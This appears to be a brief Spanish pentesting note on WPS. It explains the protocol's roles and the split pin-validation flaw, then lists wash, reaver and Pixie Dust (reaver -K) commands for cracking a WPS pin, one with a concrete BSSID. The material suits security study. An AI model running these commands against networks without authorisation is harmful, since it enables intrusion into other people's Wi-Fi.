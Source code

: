 # Info

- **WPS(Wi-FI Protected setup)** fue creado para unificar a los proveedores de tencología con el fin de compartir passphrases WPA y WPA2 de manera segura utilizando métodos diferentes.
- Permite en muchos casos configurar dispositivos fácil para usuarios sin conocimiento (al punto de que en la mayoría de los casos lo único que hay que poner es un pin o tocar un botón)

# Roles

WPS distingue 2 roles

| Rol | Desc |
|----|----|
| Enrollee | Un dispositivo intentando conectarse a la red |
| Registrar | configura los enrollees para que se unan a la red |



# Teoría del ataque

Los ataques se dan sobre la implementación basada en pin.

La validación del PIN se realiza en dos partes. Se valida la primera mitad (primeros 4 dígitos), luego la segunda mitad(3) y el último número es una suma de comprobación.

La primera mitad del pin se valida entre los mensajes M1 a M4. SI recibimos el M5 quiere decir que es correcto. El si la segunda mitad es correcta recibimos el M7 junto con la config.


# Ataque

### Buscar redes WEP

    wash -i <interfaz_mon>

### Atacar 

    sudo reaver -b <BSSID> -i <interfaz> -v -c <channel>

### PixieWPS attack

    sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K
